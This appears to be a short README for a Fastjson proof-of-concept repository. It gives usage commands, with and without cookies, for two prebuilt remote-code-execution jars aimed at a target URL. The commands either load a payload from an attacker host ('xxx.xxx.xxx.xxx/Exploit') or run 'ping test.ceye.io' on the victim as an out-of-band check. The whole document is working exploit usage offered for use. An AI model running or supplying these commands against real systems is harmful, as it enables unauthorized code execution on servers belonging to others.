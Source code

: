 # Fastjson-POC
Fastjson-POC

# 有cookies

java -jar fastjson-2019-Rce.jar http://url/ xxx.xxx.xxx.xxx/Exploit cookies

java -jar fast-2018-Rce.jar http://url/ cookies "ping test.ceye.io"


# 无cookies

java -jar fastjson-2019-Rce.jar http://url/ xxx.xxx.xxx.xxx/Exploit null

java -jar fast-2018-Rce.jar http://url/ null "ping test.ceye.io"
